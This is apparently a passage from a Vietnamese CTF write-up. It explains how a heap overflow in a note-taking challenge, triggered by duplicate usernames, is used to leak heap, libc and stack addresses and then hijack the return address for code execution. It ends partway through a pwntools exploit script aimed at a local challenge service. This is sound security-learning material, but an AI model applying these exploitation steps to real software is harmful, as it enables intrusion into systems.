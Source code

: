 ## IV. Exploit
#### 1. Intuition
- Để leak heap base, ta cần nhắc lại về struct user:
    ```C
    00000000 struct user // sizeof=0x168
    00000000 {
    00000000     char username[32];
    00000020     char password[32];
    00000040     char name[32];
    00000060     int logged_in;
    00000064     int note_count;
    00000068     NOTE *note[32];
    00000168 };

    00000168 typedef struct user USER;
    ```

    Ở bên trên ta đã biết, nếu có 2 user trùng tên thì mảng note của user có thể bị overflow vào các chunk tiếp theo.

    Từ đó dẫn đến việc ta có thể ghi đè vào `size`, `username`, `password`, `name`, ... của chunk tiếp theo thành các địa chỉ của một note khác bên trong heap.
    Sử dụng chức năng xem `username` của chunk bị ghi đè, ta sẽ leak được heap base.


- Sau khi leak được heap base, sử dụng tính năng đổi `name` của chunk bị ghi đè thành một địa chỉ chứa libc address để leak libc base, sau đó dùng chức năng xem note content để đọc giá trị bên trong con trỏ này. 

    > Ví dụ ở phần này, mình sửa `name` của user bị ghi đè thành địa chỉ của một chunk nằm trong unsortedbin, sau đó đọc được giá trị forward pointer của unsorted bin là có một địa chỉ bên trong libc. 

- Tương tự dùng environ để leak stack.

- Sửa note pointer trong note array thành return address, rồi dùng `edit_note()` để control rip. **`=> RCE`**

#### 2. Script
- Hơi bẩn vì mình gõ vội, nhưng mà có chạy:
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

context.binary = exe
# context.terminal = ["tmux", "splitw", "-h"] 
gdbscript = '''
breakrva 0x0000000000001F32
'''

def conn():
    if args.LOCAL:
        # r = gdb.debug([exe.path], gdbscript)
        r = process([exe.path])
    else:
        r = remote("localhost", 1611)

    return r

r = conn()
def register(username, password):
    r.sendlineafter(b'Your choice: ', b'1')
```